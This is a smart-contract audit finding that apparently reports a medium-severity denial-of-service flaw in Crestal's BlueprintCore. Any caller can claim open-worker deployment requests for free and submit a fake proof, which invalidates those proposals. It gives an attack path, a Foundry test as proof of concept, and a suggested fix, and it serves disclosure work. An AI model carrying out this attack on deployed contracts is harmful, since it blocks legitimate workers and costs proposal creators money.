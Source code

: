 Active Cloth Tortoise

Medium

# An attacker can DOS all proposals created for public-workers because submitting a deployment request has no cost

### Summary

When a project and proposal are created with functions like `createProjectIDAndDeploymentRequest()`, a `deploymentRequest` is created with  the  `dummyAddress` as a worker, meaning that any worker can pickup that request. 

At this point, anyone can submit a deployment request at no cost. This means an attacker could DOS these open-worker requests by calling `submitDeploymentRequest()` to all requests ids. Moreover, since that function sets the `deployWorkerAddr` to `msg.sender`, the attacker can also call `submitProofOfDeployment()` and update the status to `Status.GeneratedProof` with a fake proof. This effectively blocks any other worker from calling `submitDeploymentRequest()` again, and the proposal is automatically invalidated. 




### Root Cause

The function `submitDeploymentRequest()` implies no economical cost for the caller, and can simply block all request ids maliciously. 

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L602-L626

### Internal Pre-conditions

1. A user creates a proposal with an open-worker option with functions like `createProjectIDAndDeploymentRequest()` which sets the `workerAddress` to the `dummyAddress == address(0)`. 

### External Pre-conditions

None.

### Attack Path

1. An attacker calls `submitDeploymentRequest()`, picking up the request at no cost and locking the `requestDeploymentStatus[requestID].deployWorkerAddr` to the attacker address.
2. The attacker calls right after `submitProofOfDeployment()` with a fake proof, turning the status to `Status.GeneratedProof`. This blocks anyone else from calling `submitDeploymentRequest()` again. 

### Impact

Any attacker can invalidate all proposals that have a non-private worker set. This means all proposals created with:
- `createProjectIDAndProposalRequest()`
- `createProjectIDAndProposalRequestWithSig()`
- `createProjectIDAndDeploymentRequest()`
- createProjectIDAndDeploymentRequestWithSig()`

Or any of the agent-creation functions if they are called with `privateWorkerAddress == address(0)`

Note that the the `submitDeploymentRequest()` can also be called when the status are `Deploying` and `Deployed`. The BlueprintV5 does not set those states, but if a project from a previous version has the status `Deployed` and not `GeneratedProof`, the attack is also valid. 

This attack forces the creator of the proposal to either recreate it, or pay the cost of calling `updateWorkerDeploymentConfigCommon()`. 

### PoC

Add this test to the end of `test/BlueprintV5.t.sol`. 

```solidity

    function test_dos_proposals() public {
        address attacker = makeAddr("attacker");

        blueprint.addPaymentAddress(address(mockToken));
        // Mint tokens to the test account
        uint256 validTokenAmount = 100 * 10 ** 18;
        // set none zero cost for create agents, use any number greater than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), validTokenAmount);
        mockToken.mint(address(this), validTokenAmount);
        // Approve the blueprint contract to spend tokens directly from the test contract
        mockToken.approve(address(blueprint), validTokenAmount);

        // any worker can take this
        address freeWorkerAddress = address(0);

        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";
        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2981);
        // create agent with token and non zero cost
        bytes32 requestId = blueprint.createAgentWithToken(projectId, base64Proposal, freeWorkerAddress, serverURL, address(mockToken));

        string memory fakeProof = "fakeProof";
        vm.startPrank(attacker);
        blueprint.submitDeploymentRequest(projectId, requestId);
        blueprint.submitProofOfDeployment(projectId, requestId, fakeProof);

    }
```

### Mitigation

I would add a cost to the `submitDeploymentRequest()` so that the attacker is disincentivized from picking up requests if they are not actually going to deploy them. 